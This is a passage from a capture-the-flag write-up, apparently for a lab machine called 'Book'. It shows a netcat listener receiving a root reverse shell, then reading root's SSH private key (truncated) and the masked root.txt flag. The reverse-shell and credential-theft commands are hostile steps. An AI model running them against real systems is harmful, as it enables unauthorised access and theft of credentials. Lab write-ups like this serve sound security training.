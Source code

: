 The exploit has been successfully executed and we should receive a reverse-shell as root.

```bash
reader@book:~$ nc -lnvp 9001
Listening on [0.0.0.0] (family 0, port 9001)
Connection from 127.0.0.1 52822 received!
root@book:~#
```

The reverse-shells only last for a couple of seconds, however we can quickly read the id_rsa file of root to gain ourselves permanent root-access.

```bash
root@book:~# cat .ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEp
[...]
ywUQ==
-----END RSA PRIVATE KEY-----
```

Now that we have a shell as root we can read root.txt.

```bash
root@book:~# cat root.txt
84da9***************************
```

